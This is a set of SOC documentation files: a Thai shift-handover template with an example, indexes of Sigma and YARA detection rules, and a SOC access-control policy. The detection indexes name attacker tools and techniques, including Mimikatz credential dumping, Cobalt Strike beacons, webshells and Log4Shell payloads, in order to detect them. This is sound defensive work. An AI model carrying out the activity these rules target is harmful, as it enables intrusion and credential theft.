## ★ 5. ข่าวกรองและคำแนะนำ

### ข่าวกรองภัยคุกคามใหม่
| แหล่งที่มา | สรุป | เพิ่ม IoCs แล้ว? | ต้องดำเนินการ? |
|:---|:---|:---:|:---:|
| | | ☐ ใช่ · ☐ ไม่ | ☐ ใช่ · ☐ ไม่ |

### ช่องโหว่ที่ประกาศ
| CVE | ระบบที่ได้รับผลกระทบ | ความรุนแรง | มี Patch? | การดำเนินการ |
|:---|:---|:---:|:---:|:---|
| | | | ☐ ใช่ · ☐ ไม่ | |

---

## 6. Escalations (ถ้ามี)

| ส่งต่อถึง | เหตุผล | เวลา | ได้รับตอบกลับ? | สถานะ |
|:---|:---|:---|:---:|:---|
| | | | ☐ ใช่ · ☐ ไม่ | |

---

## 7. ประกาศเปลี่ยนแปลง (ถ้ามี)

| Change ID | ระบบ | รายละเอียด | ช่วงเวลา | กระทบ Alert? |
|:---|:---|:---|:---|:---:|
| | | | | ☐ ใช่ · ☐ ไม่ |

---

## ★ สถิติของกะ

| ตัวชี้วัด | จำนวน |
|:---|:---:|
| Alerts ที่ประมวลผล | |
| Incidents ที่เปิด | |
| Incidents ที่ปิด | |
| Escalations | |
| False Positives ที่พบ | |
| เวลาตอบสนองเฉลี่ย (MTTA) | นาที |

---

## ★ ลงนาม

| | Lead กะเก่า | Lead กะใหม่ |
|:---|:---|:---|
| **ชื่อ** | | |
| **ลายเซ็น** | | |
| **เวลา** | | |

> ⚠️ **ทั้งสอง Lead ต้องลงนาม** เพื่อยืนยันว่าได้บรีฟแล้วและตรวจทุกส่วนที่บังคับ

---

## ตัวอย่าง Handover ที่เสร็จแล้ว

```markdown
## Shift Handover — 2026-02-16 (กลางวัน → กลางคืน)

### Analyst ออก: สมชาย (Shift A)
### Analyst เข้า: สมศรี (Shift B)

### Incidents ค้าง
| Ticket ID | Severity | สถานะ | สรุป | ต้องทำ |
|:---|:---:|:---|:---|:---|
| INC-2026-089 | P2 | กำลังสืบสวน | PowerShell น่าสงสัยบน HR-PC-042 | รอ EDR isolation approval |
| INC-2026-091 | P3 | ตรวจสอบ | Failed VPN logins จาก IP ไม่รู้จัก | ตรวจสอบอีก 12 ชม. |

### สถานะ Alert Queue
- Queue ปัจจุบัน: 14 alerts (7 low, 5 medium, 2 high)
- 2 high alerts ต้อง triage ทันที

### สุขภาพระบบ
- SIEM: ✅ ปกติ | EDR: ✅ ปกติ | Ticketing: ✅ ปกติ
- Log source gap: Firewall FL-02 offline ตั้งแต่ 14:30 (แจ้ง IT แล้ว)

### หมายเหตุสำหรับกะเข้า
1. สำคัญ: INC-089 — SOC Manager อนุมัติ isolation แล้ว ดำเนินการหลังเก็บหลักฐาน
2. Sigma rule ใหม่ deploy สำหรับ CVE-2026-1234 อาจมี FPs ช่วงแรก
3. SIEM maintenance ตอน 03:00 search อาจช้า 15 นาที
```

## ข้อผิดพลาด Handover ที่พบบ่อย

| ❌ ผิดพลาด | ผลกระทบ | ✅ แนวปฏิบัติที่ดี |
|:---|:---|:---|
| Handover ปากเปล่า | ลืมรายละเอียด | เขียน template + brief ปากเปล่า |
| ไม่แจ้งปัญหาระบบ | Analyst เข้าพลาดช่องว่างข้อมูล | ตรวจและรายงาน log source health เสมอ |
| สรุป incident ไม่ครบ | เสียเวลาสืบสวนซ้ำ | ใส่: เกิดอะไร ทำอะไรแล้ว ต้องทำอะไรต่อ |
| ลืมบอก pending approvals | Containment ล่าช้า | ลิสต์ pending approvals/waiting items ทั้งหมด |
| ไม่แจ้งสถานะ alert queue | Queue ล้น | รายงาน queue depth เสมอ |

## เอกสารที่เกี่ยวข้อง

- [มาตรฐานส่งมอบกะ](../06_Operations_Management/Shift_Handoff.th.md) — ขั้นตอนส่งมอบ
- [กรอบ IR](../05_Incident_Response/Framework.th.md) — วงจรชีวิตการตอบสนอง
- [ตัวชี้วัด SOC & KPIs](../06_Operations_Management/SOC_Metrics.th.md) — ตัวชี้วัดประสิทธิภาพ
- [แบบฟอร์ม Incident Report](incident_report.th.md) — เอกสารหลังเหตุการณ์

### Handover Quality Check

| Item | Verified |
|:---|:---|
| Open incidents listed | ☐ |
| Pending actions noted | ☐ |
| Unusual activity flagged | ☐ |
| System health confirmed | ☐ |

## อ้างอิง

- [NIST SP 800-61r2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 08_Detection_Engineering/README.md

# Detection Rules Index (Sigma)

This directory contains **36 Sigma detection rules** mapped to the SOC Playbooks. Rules are organized by category and can be imported into any Sigma-compatible SIEM (Splunk, Elastic, Microsoft Sentinel, etc.).

## How to Use

1. **Import** the `.yml` files into your SIEM's Sigma converter (e.g., `sigmac`, `pySigma`, Uncoder.io)
2. **Tune** the `falsepositives` and `level` fields to match your environment
3. **Map** each rule to the corresponding Playbook for response procedures

---

## 📋 Detection Rules by Category

### 🖥️ Process / Endpoint Detection

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [proc_office_spawn_powershell.yml](proc_office_spawn_powershell.yml) | Office Application Spawning PowerShell | High | T1059.001 | PB-01 Phishing |
| [proc_powershell_encoded.yml](proc_powershell_encoded.yml) | PowerShell Encoded Command | High | T1059.001 | PB-11 Suspicious Script |
| [proc_temp_folder_execution.yml](proc_temp_folder_execution.yml) | Suspicious Execution from Temp/Downloads | Medium | T1204.002 | PB-03 Malware |
| [proc_cryptomining_indicators.yml](proc_cryptomining_indicators.yml) | Cryptomining Process / Stratum Protocol | Critical | T1496 | PB-23 Cryptomining |

### 📁 File Activity

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [file_bulk_renaming_ransomware.yml](file_bulk_renaming_ransomware.yml) | Potential Ransomware Bulk File Renaming | Critical | T1486 | PB-02 Ransomware |
| [file_bulk_usb_copy.yml](file_bulk_usb_copy.yml) | Bulk File Copy to USB Drive | Medium | T1052 | PB-08 Data Exfiltration |

### 🌐 Network Detection

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [net_beaconing.yml](net_beaconing.yml) | Network Beaconing Pattern | High | T1071 | PB-13 C2 Communication |
| [net_large_upload.yml](net_large_upload.yml) | Large Upload to External IP (>500MB) | High | T1048 | PB-08 Data Exfiltration |
| [net_dns_tunneling.yml](net_dns_tunneling.yml) | DNS Tunneling (High Volume / Long Queries) | High | T1071.004 | PB-24 DNS Tunneling |
| [net_ot_ics_anomaly.yml](net_ot_ics_anomaly.yml) | OT/ICS Network Anomaly (Modbus/DNP3/OPC UA) | Critical | ICS T0813 | PB-30 OT/ICS Incident |

### 🔐 Windows Security

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [win_multiple_failed_logins.yml](win_multiple_failed_logins.yml) | Multiple Failed Login Attempts | Medium | T1110 | PB-04 Brute Force |
| [win_admin_share_access.yml](win_admin_share_access.yml) | Access to Admin Shares (C$) | Medium | T1021.002 | PB-12 Lateral Movement |
| [win_domain_admin_group_add.yml](win_domain_admin_group_add.yml) | User Added to Domain Admins | High | T1078 | PB-07 Privilege Escalation |
| [win_new_user_created.yml](win_new_user_created.yml) | New Local User Created | Medium | T1136 | PB-15 Rogue Admin |
| [win_security_log_cleared.yml](win_security_log_cleared.yml) | Windows Security Log Cleared | Critical | T1070.001 | PB-20 Log Clearing |
| [win_security_event_log_cleared.yml](sigma_rules/win_security_event_log_cleared.yml) | Windows Security Event Log Cleared | Critical | T1070.001 | PB-20 Log Clearing |
| [win_network_discovery.yml](sigma_rules/win_network_discovery.yml) | Network Discovery Commands | Medium | T1018 | PB-34 Network Discovery |
| [win_data_collection_staging.yml](sigma_rules/win_data_collection_staging.yml) | Data Collection and Staging | Medium | T1074 | PB-35 Data Collection |

### ☁️ Cloud Detection

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [cloud_impossible_travel.yml](cloud_impossible_travel.yml) | Impossible Travel (Cloud/VPN) | High | T1078.004 | PB-06 Impossible Travel |
| [cloud_unusual_login.yml](cloud_unusual_login.yml) | Login from Unusual Location | Medium | T1078.004 | PB-05 Account Compromise |
| [cloud_root_login.yml](cloud_root_login.yml) | AWS Root Account Login | Critical | T1078 | PB-16 Cloud IAM |
| [cloud_aws_ec2_mining.yml](cloud_aws_ec2_mining.yml) | AWS EC2 Crypto Mining Indicator | High | T1496 | PB-23 Cryptomining |
| [cloud_aws_s3_public_access.yml](cloud_aws_s3_public_access.yml) | AWS S3 Public Access Enabled | High | T1530 | Cloud S3 Compromise |
| [cloud_azure_risky_signin.yml](cloud_azure_risky_signin.yml) | Azure AD Risky Sign-in | High | T1078.004 | Azure AD Compromise |
| [cloud_email_inbox_rule.yml](cloud_email_inbox_rule.yml) | Suspicious Inbox Rule Created | High | T1114.003 | PB-17 BEC |
| [cloud_supply_chain_compromise.yml](cloud_supply_chain_compromise.yml) | Suspicious Package Manager Activity | High | T1195.002 | PB-21 Supply Chain |
| [cloud_mfa_bypass.yml](cloud_mfa_bypass.yml) | MFA Bypass / AiTM Token Theft | High | T1556.006 | PB-26 MFA Bypass |
| [cloud_storage_public_access.yml](cloud_storage_public_access.yml) | Cloud Storage Public Access (S3/Blob) | High | T1530 | PB-27 Cloud Storage |
| [cloud_mobile_compromise.yml](cloud_mobile_compromise.yml) | Mobile Device Compromise (MDM) | Medium | T1456 | PB-28 Mobile Compromise |

### 🌍 Web / Application

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [web_high_rate_limit.yml](web_high_rate_limit.yml) | High Web Request Rate from Single IP | High | T1498 | PB-09 DDoS / PB-22 API Abuse |
| [web_sqli_pattern.yml](web_sqli_pattern.yml) | Generic SQL Injection Pattern | High | T1190 | PB-10 Web Attack |
| [web_waf_exploit.yml](web_waf_exploit.yml) | WAF Detected Exploit Attempt | High | T1190 | PB-18 Exploit |
| [web_api_abuse_auth_bypass.yml](web_api_abuse_auth_bypass.yml) | API Auth Bypass / Enumeration | High | T1190 | PB-22 API Abuse |
| [web_zero_day_exploit_attempt.yml](web_zero_day_exploit_attempt.yml) | Zero-Day Exploit Payload (Log4Shell, RCE) | Critical | T1190/T1203 | PB-25 Zero-Day |

### 📱 MDM / Device

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [mdm_device_offline.yml](mdm_device_offline.yml) | Device Offline for Extended Period | Low | — | PB-19 Lost Device |

### 🔍 Proxy / CASB

| Rule File | Title | Level | MITRE ATT&CK | Playbook |
|:---|:---|:---|:---|:---|
| [proxy_shadow_it.yml](proxy_shadow_it.yml) | Shadow IT / Unauthorized SaaS Usage | Low | T1567 | PB-29 Shadow IT |

---

## 🎯 YARA Rules (File-based Detection)

In addition to Sigma rules, this directory contains **10 YARA rules** for file-based threat detection:

| File | Rules | Detects | Playbook |
|:---|:---:|:---|:---|
| [ransomware_indicators.yar](yara/ransomware_indicators.yar) | 2 | Ransom notes, shadow copy deletion | PB-02 |
| [webshell_generic.yar](yara/webshell_generic.yar) | 3 | PHP/JSP/ASPX webshells | PB-10, PB-18 |
| [cryptominer_detection.yar](yara/cryptominer_detection.yar) | 2 | Mining pools, xmrig binaries | PB-23 |
| [cobalt_strike_beacon.yar](yara/cobalt_strike_beacon.yar) | 2 | CS beacons & stagers | PB-13, PB-12 |
| [malicious_document.yar](yara/malicious_document.yar) | 2 | Office macro malware, PDF JS | PB-01, PB-03 |

📖 **Full YARA Index**: [yara/README.md](yara/README.md)

---

## References
-   [Sigma Official Repository](https://github.com/SigmaHQ/sigma)
-   [MITRE ATT&CK Framework](https://attack.mitre.org/)
-   [Uncoder.io — Sigma Rule Converter](https://uncoder.io/)
-   [YARA Official Documentation](https://yara.readthedocs.io/)


---

## File: 08_Detection_Engineering/README.th.md

# ดัชนี Detection Rules (Sigma) — ภาษาไทย

ไดเรกทอรีนี้มี **Sigma Detection Rule 36 กฎ** ที่ map กับ SOC Playbook แต่ละชุด สามารถ Import เข้า SIEM ที่รองรับ Sigma ได้ (Splunk, Elastic, Microsoft Sentinel ฯลฯ)

## วิธีใช้งาน

1. **Import** ไฟล์ `.yml` เข้า Sigma Converter ของ SIEM (เช่น `sigmac`, `pySigma`, Uncoder.io)
2. **ปรับแต่ง** ค่า `falsepositives` และ `level` ให้เหมาะกับสภาพแวดล้อมของคุณ
3. **เชื่อมโยง** แต่ละกฎกับ Playbook ที่เกี่ยวข้องเพื่อขั้นตอนตอบสนอง

---

## 📋 Detection Rules แยกตามหมวดหมู่

### 🖥️ Process / Endpoint Detection (การตรวจจับที่ Endpoint)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [proc_office_spawn_powershell.yml](proc_office_spawn_powershell.yml) | Office Spawning PowerShell | ตรวจจับ Office (Word/Excel/Outlook) เปิด PowerShell — เทคนิค Phishing ทั่วไป | สูง | T1059.001 | PB-01 |
| [proc_powershell_encoded.yml](proc_powershell_encoded.yml) | PowerShell Encoded Command | ตรวจจับ PowerShell ที่รันคำสั่งแบบ Encode เพื่อซ่อน Script อันตราย | สูง | T1059.001 | PB-11 |
| [proc_temp_folder_execution.yml](proc_temp_folder_execution.yml) | Execution from Temp/Downloads | ตรวจจับไฟล์ที่รันจากโฟลเดอร์ Temp หรือ Downloads — น่าสงสัยว่าเป็นมัลแวร์ | ปานกลาง | T1204.002 | PB-03 |
| [proc_cryptomining_indicators.yml](proc_cryptomining_indicators.yml) | Cryptomining Process / Stratum | ตรวจจับ Process ขุดเหมือง (xmrig, cpuminer) หรือการใช้ Stratum Protocol — ขุดคริปโตโดยไม่ได้รับอนุญาต | วิกฤต | T1496 | PB-23 |

### 📁 File Activity (กิจกรรมไฟล์)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [file_bulk_renaming_ransomware.yml](file_bulk_renaming_ransomware.yml) | Bulk File Renaming (Ransomware) | ตรวจจับการเปลี่ยนชื่อไฟล์จำนวนมากในเวลาสั้น (เช่น .enc, .lock, .crypt) — สัญญาณ Ransomware | วิกฤต | T1486 | PB-02 |
| [file_bulk_usb_copy.yml](file_bulk_usb_copy.yml) | Bulk File Copy to USB | ตรวจจับการคัดลอกไฟล์จำนวนมากไปยัง USB Drive — อาจเป็นการขโมยข้อมูล | ปานกลาง | T1052 | PB-08 |

### 🌐 Network Detection (การตรวจจับเครือข่าย)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [net_beaconing.yml](net_beaconing.yml) | Network Beaconing Pattern | ตรวจจับการเชื่อมต่อเครือข่ายแบบสม่ำเสมอไปยังปลายทางเดิม — สัญญาณ C2 Beaconing | สูง | T1071 | PB-13 |
| [net_large_upload.yml](net_large_upload.yml) | Large Upload >500MB | ตรวจจับการอัปโหลดข้อมูลมากกว่า 500MB ไปยัง IP ภายนอก — อาจเป็นการรั่วไหลข้อมูล | สูง | T1048 | PB-08 |
| [net_dns_tunneling.yml](net_dns_tunneling.yml) | DNS Tunneling | ตรวจจับ DNS Query ที่มีความยาวผิดปกติ (>50 chars) หรือปริมาณ TXT/NULL record สูง — สัญญาณ DNS Tunneling | สูง | T1071.004 | PB-24 |

### 🔐 Windows Security (ความปลอดภัย Windows)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [win_multiple_failed_logins.yml](win_multiple_failed_logins.yml) | Multiple Failed Logins | ตรวจจับการ Login ล้มเหลวหลายครั้งในเวลาสั้น — สัญญาณ Brute Force | ปานกลาง | T1110 | PB-04 |
| [win_admin_share_access.yml](win_admin_share_access.yml) | Admin Share Access (C$) | ตรวจจับการเข้าถึง Admin Share (Admin$, C$, D$) — ใช้ในการเคลื่อนตัวข้ามระบบ | ปานกลาง | T1021.002 | PB-12 |
| [win_domain_admin_group_add.yml](win_domain_admin_group_add.yml) | User Added to Domain Admins | ตรวจจับการเพิ่มผู้ใช้เข้ากลุ่ม Domain Admins — การยกระดับสิทธิ์ | สูง | T1078 | PB-07 |
| [win_new_user_created.yml](win_new_user_created.yml) | New Local User Created | ตรวจจับการสร้างบัญชีผู้ใช้ Local ใหม่ — อาจเป็น Backdoor | ปานกลาง | T1136 | PB-15 |
| [win_security_log_cleared.yml](win_security_log_cleared.yml) | Security Log Cleared | ตรวจจับการลบ Windows Security Event Log — ตัวบ่งชี้สำคัญของการถูกบุกรุก | วิกฤต | T1070.001 | PB-20 |
| [win_security_event_log_cleared.yml](sigma_rules/win_security_event_log_cleared.yml) | Security Event Log Cleared | ตรวจจับการลบ Event Log ผ่าน System channel — เทคนิค anti-forensics | วิกฤต | T1070.001 | PB-20 |
| [win_network_discovery.yml](sigma_rules/win_network_discovery.yml) | Network Discovery Commands | ตรวจจับคำสั่ง network reconnaissance (net view, nltest, dsquery) | ปานกลาง | T1018 | PB-34 |
| [win_data_collection_staging.yml](sigma_rules/win_data_collection_staging.yml) | Data Collection/Staging | ตรวจจับการรวบรวมและ staging ข้อมูล (7z, rar, Compress-Archive) | ปานกลาง | T1074 | PB-35 |

### ☁️ Cloud Detection (การตรวจจับ Cloud)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [cloud_impossible_travel.yml](cloud_impossible_travel.yml) | Impossible Travel | ตรวจจับ Login จาก 2 สถานที่ที่เดินทางไม่ทันในเวลาที่กำหนด | สูง | T1078.004 | PB-06 |
| [cloud_unusual_login.yml](cloud_unusual_login.yml) | Unusual Login Location | ตรวจจับ Login จากประเทศที่ไม่อยู่ในรายการอนุมัติ | ปานกลาง | T1078.004 | PB-05 |
| [cloud_root_login.yml](cloud_root_login.yml) | AWS Root Account Login | ตรวจจับการ Login ด้วยบัญชี Root ของ AWS — ไม่ควรใช้ในการทำงานปกติ | วิกฤต | T1078 | PB-16 |
| [cloud_aws_ec2_mining.yml](cloud_aws_ec2_mining.yml) | EC2 Crypto Mining | ตรวจจับ EC2 Instance ที่เชื่อมต่อกับ Mining Pool ผ่าน GuardDuty | สูง | T1496 | PB-23 |
| [cloud_aws_s3_public_access.yml](cloud_aws_s3_public_access.yml) | S3 Public Access Enabled | ตรวจจับการปิด Block Public Access หรือ Bucket Policy ที่เปิดเป็น Public | สูง | T1530 | Cloud S3 |
| [cloud_azure_risky_signin.yml](cloud_azure_risky_signin.yml) | Azure AD Risky Sign-in | ตรวจจับ Sign-in ที่ถูกแฟล็กว่า Impossible Travel หรือ Anonymized IP | สูง | T1078.004 | Azure AD |
| [cloud_email_inbox_rule.yml](cloud_email_inbox_rule.yml) | Suspicious Inbox Rule | ตรวจจับการสร้าง Inbox Rule ที่ผู้โจมตีใช้ซ่อนอีเมล (เช่น ลบ, ย้ายไป RSS) | สูง | T1114.003 | PB-17 |
| [cloud_supply_chain_compromise.yml](cloud_supply_chain_compromise.yml) | Supply Chain Package Tampering | ตรวจจับ Package Manager (npm, pip, gem) ที่ Install จาก Registry ไม่ปกติ — สัญญาณ Supply Chain Attack | สูง | T1195.002 | PB-21 |

### 🌍 Web / Application (เว็บ / แอปพลิเคชัน)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [web_high_rate_limit.yml](web_high_rate_limit.yml) | High Request Rate | ตรวจจับ IP เดียวส่ง HTTP Request จำนวนมากผิดปกติ — สัญญาณ DDoS หรือ Scanning | สูง | T1498 | PB-09/22 |
| [web_sqli_pattern.yml](web_sqli_pattern.yml) | SQL Injection Pattern | ตรวจจับรูปแบบ SQL Injection ทั่วไปใน URL Parameter | สูง | T1190 | PB-10 |
| [web_waf_exploit.yml](web_waf_exploit.yml) | WAF Exploit Attempt | ตรวจจับ WAF Event ที่แฟล็กการพยายามโจมตีด้วย CVE ที่รู้จัก | สูง | T1190 | PB-18 |
| [web_api_abuse_auth_bypass.yml](web_api_abuse_auth_bypass.yml) | API Auth Bypass / Enumeration | ตรวจจับการโจมตี API แบบ BOLA/IDOR — วน ID ต่อเนื่องหรือ Auth Fail จำนวนมาก | สูง | T1190 | PB-22 |
| [web_zero_day_exploit_attempt.yml](web_zero_day_exploit_attempt.yml) | Zero-Day Exploit Payload | ตรวจจับ Payload ที่ใช้โจมตีช่องโหว่ (Log4Shell, Spring4Shell, RCE) ใน Web Request | วิกฤต | T1190/T1203 | PB-25 |

### 📱 MDM / Device (อุปกรณ์)

| ไฟล์กฎ | ชื่อ (EN) | คำอธิบายภาษาไทย | ระดับ | MITRE | Playbook |
|:---|:---|:---|:---|:---|:---|
| [mdm_device_offline.yml](mdm_device_offline.yml) | Device Offline >30 Days | ตรวจจับอุปกรณ์ที่ไม่ Check-in กับ MDM Server มากกว่า 30 วัน | ต่ำ | — | PB-19 |

---

## ระดับความรุนแรง (Severity Level)

| ระดับ | ความหมาย | การตอบสนอง |
|:---|:---|:---|
| 🔴 **วิกฤต (Critical)** | ตัวบ่งชี้การถูกบุกรุกที่ชัดเจน | ตอบสนองทันที — แจ้ง Tier 2+ |
| 🟠 **สูง (High)** | มีโอกาสสูงที่เป็นเหตุการณ์จริง | ตรวจสอบภายใน 15 นาที |
| 🟡 **ปานกลาง (Medium)** | ต้องตรวจสอบเพิ่มเติม | ตรวจสอบภายใน 1 ชั่วโมง |
| 🟢 **ต่ำ (Low)** | ข้อมูลเสริม / ปกติ | ตรวจสอบในเวลาทำการ |

## References
-   [Sigma Official Repository](https://github.com/SigmaHQ/sigma)
-   [MITRE ATT&CK Framework](https://attack.mitre.org/)
-   [Uncoder.io — Sigma Rule Converter](https://uncoder.io/)


---

## File: 08_Detection_Engineering/file_signatures/README.md

# YARA Rules (File Signatures)

This directory contains YARA rules for detecting malicious files. These rules can be used with the `yara` command line tool or integrated into EDR/Forensic tools.

| Rule File | Description | Severity |
| :--- | :--- | :--- |
| `webshell_php_generic.yar` | Detects common PHP Webshells (c99, r57, etc.) | Critical |
| `ransomware_generic_encrypt.yar` | Detects mass file encryption behavior and ransom notes | Critical |
| `hacktool_mimikatz.yar` | Detects Mimikatz credential dumping artifacts | High |

## Usage
```bash
yara -r 08_Detection_Engineering/file_signatures/ /path/to/scan
```


---

## File: 08_Detection_Engineering/yara/README.md

# YARA Detection Rules

This directory contains **10 YARA rules** across 5 files for **file-based threat detection**. Use these rules with YARA-compatible tools (YARA CLI, ClamAV, THOR, Velociraptor, etc.) to scan endpoints and file shares.

## How to Use

1. **Install YARA**: `brew install yara` (macOS) or `apt install yara` (Linux)
2. **Scan a file**: `yara -r ransomware_indicators.yar /path/to/suspect_file`
3. **Scan a directory**: `yara -r *.yar /path/to/directory/`
4. **Use in Velociraptor**: Import rules into `Yara.Scan` artifact for endpoint sweeps

---

## 📋 Rules Index

| File | Rules | Threat Category | Severity | Playbook | MITRE |
|:---|:---:|:---|:---:|:---|:---|
| [ransomware_indicators.yar](ransomware_indicators.yar) | 2 | Ransomware (ransom notes, shadow delete) | Critical | PB-02 | T1486 |
| [webshell_generic.yar](webshell_generic.yar) | 3 | Webshells (PHP, JSP, ASPX) | High | PB-10, PB-18 | T1505.003 |
| [cryptominer_detection.yar](cryptominer_detection.yar) | 2 | Cryptominers (binary + script) | High | PB-23 | T1496 |
| [cobalt_strike_beacon.yar](cobalt_strike_beacon.yar) | 2 | Cobalt Strike (beacon + stager) | Critical | PB-13, PB-12 | T1071.001 |
| [malicious_document.yar](malicious_document.yar) | 2 | Malicious docs (Office macros, PDF JS) | High | PB-01, PB-03 | T1566.001 |

**Total: 10 rules / 5 files**

---

## Rule Severity Guide

| Severity | Action |
|:---|:---|
| **Critical** | Block immediately + escalate to Tier 2 |
| **High** | Alert + quarantine + triage within 15 min |
| **Medium** | Alert + investigate within 1 hour |

---

## Integration Examples

### Velociraptor Artifact
```yaml
name: Custom.Yara.SOCScan
sources:
  - query: |
      SELECT * FROM yara(
        rules=read_file(filename="/path/to/yara/*.yar"),
        files=glob(globs="/tmp/**")
      )
```

### ClamAV
```bash
# Convert YARA to ClamAV signatures
sigtool --convert-yara ransomware_indicators.yar > ransomware.ldb
```

### THOR (Nextron Systems)
```bash
# Drop .yar files into THOR's custom-signatures directory
cp *.yar /opt/thor/custom-signatures/yara/
```


---

## File: 06_Operations_Management/Access_Control.en.md

# SOC Access Control Policy

> **Document ID:** ACC-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager / CISO

---

## Purpose

Defines who can access SOC tools, at what privilege level, and how access is granted, reviewed, and revoked. The SOC must protect itself as rigorously as it protects the organization.

---

## Role-Based Access Matrix

| SOC Tool | T1 Analyst | T2 Analyst | SOC Lead | SOC Manager | Detection Eng | External (MSSP) |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|
| **SIEM — Read/Search** | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ (limited) |
| **SIEM — Create Rules** | ❌ | ✅ | ✅ | ✅ | ✅ | ❌ |
| **SIEM — Admin/Config** | ❌ | ❌ | ❌ | ✅ | ✅ | ❌ |
| **EDR — View Alerts** | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ (limited) |
| **EDR — Isolate Host** | ❌ | ✅ | ✅ | ✅ | ❌ | ❌ |
| **EDR — Uninstall Agent** | ❌ | ❌ | ❌ | ✅ | ❌ | ❌ |
| **Ticketing — Create** | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ |
| **Ticketing — Close P1/P2** | ❌ | ❌ | ✅ | ✅ | ❌ | ❌ |
| **Firewall — View Rules** | ❌ | ✅ | ✅ | ✅ | ❌ | ❌ |
| **Firewall — Block IP** | ❌ | ✅ (temp) | ✅ | ✅ | ❌ | ❌ |
| **SOAR — Execute Playbook** | ✅ | ✅ | ✅ | ✅ | ✅ | ❌ |
| **SOAR — Edit Playbook** | ❌ | ❌ | ✅ | ✅ | ✅ | ❌ |
| **TI Platform (MISP)** | Read | Read/Write | Admin | Admin | Read/Write | Read |
| **SOC Documentation** | Read | Read/Write | Admin | Admin | Read/Write | Read |

---

## Access Request Process

```mermaid
graph LR
    Request[1. Submit Request] --> Manager[2. SOC Manager Review]
    Manager --> IT[3. IT Provisions Access]
    IT --> Verify[4. User Confirms]
    Verify --> Log[5. Log in Access Register]
```

### Request Requirements

| Field | Required |
|:---|:---:|
| Requester name | ✅ |
| Tool/system requested | ✅ |
| Access level (read/write/admin) | ✅ |
| Business justification | ✅ |
| Duration (permanent/temporary) | ✅ |
| Manager approval | ✅ |

---

## Account Security Requirements

| Control | Requirement |
|:---|:---|
| **Authentication** | MFA required for ALL SOC tools |
| **Password** | Min 14 chars, complexity enforced, no reuse (12 history) |
| **Session timeout** | 15 min inactive → lock, 8 hrs max → force re-auth |
| **Service accounts** | Unique per tool, no shared passwords, rotate every 90 days |
| **API keys** | Per-user, rotate every 90 days, stored in vault (not plaintext) |
| **VPN/Zero Trust** | Required for remote access to SOC tools |
| **Privileged access** | JIT (Just-In-Time) for admin access where possible |

---

## Access Review Schedule

| Review Type | Frequency | Reviewer | Action |
|:---|:---:|:---|:---|
| Active accounts | Monthly | SOC Manager | Remove departed staff |
| Privilege levels | Quarterly | SOC Manager + CISO | Right-size permissions |
| Service accounts | Quarterly | SOC Engineer | Rotate credentials |
| API keys | Quarterly | SOC Engineer | Rotate and audit usage |
| MSSP access | Monthly | SOC Manager | Validate scope |
| Full audit | Annually | CISO + Internal Audit | Comprehensive review |

---

## Offboarding Checklist

When a SOC team member departs:

```
□ Disable AD/Azure AD account (within 1 hour of departure)
□ Revoke SIEM access
□ Revoke EDR access
□ Revoke ticketing system access
□ Revoke SOAR access
□ Revoke VPN/remote access
□ Revoke TI platform access
□ Rotate any shared credentials the person had access to
□ Remove from SOC communication channels (Slack/Teams)
□ Remove from on-call/shift rotation
□ Transfer ownership of dashboards/rules they created
□ Document in Access Register
```

---

## Audit Logging

All SOC tool access must be logged:

| Log Type | What to Capture | Retention |
|:---|:---|:---:|
| Login events | User, time, source IP, success/fail | 1 year |
| Configuration changes | Who, what, when, before/after | 2 years |
| Rule modifications | Rule name, author, old/new logic | 2 years |
| Data exports | Who, dataset, volume, destination | 1 year |
| Admin actions | All privileged operations | 2 years |

---

## Break-Glass Emergency Access

During critical incidents when normal access paths are unavailable:

| Scenario | Break-Glass Procedure | Post-Incident |
|:---|:---|:---|
| SSO/IdP down, cannot access SIEM | Use local admin account (sealed envelope) | Change password immediately, log usage |
| MFA provider outage | Bypass MFA with backup codes (pre-issued) | Report to IT, review all sessions |
| Primary analyst unavailable for P1 | SOC Manager grants temp access to backup | Revoke within 24 hours |
| SOAR API credentials expired mid-incident | Use manual command override | Rotate credentials, update vault |

### Break-Glass Access Rules
1. **Two-person rule** — break-glass access requires approval from SOC Manager or CISO
2. **Audit trail** — all break-glass usage must be logged in incident ticket
3. **Time-limited** — access valid for incident duration only (max 24 hours)
4. **Post-mortem** — review all break-glass events in weekly ops meeting

## Privileged Access Management (PAM)

```mermaid
graph LR
    Request["Request PAM<br/>Access"] --> Approve["Manager<br/>Approves"]
    Approve --> Grant["JIT Access<br/>Granted"]
    Grant --> Session["Recorded<br/>Session"]
    Session --> Expire["Auto-Expire<br/>(4h max)"]
    Expire --> Audit["Audit Log<br/>Generated"]
```

| PAM Control | Implementation |
|:---|:---|
| Just-In-Time (JIT) access | Admin access granted for 4-hour windows only |
| Session recording | All admin sessions recorded and stored 1 year |
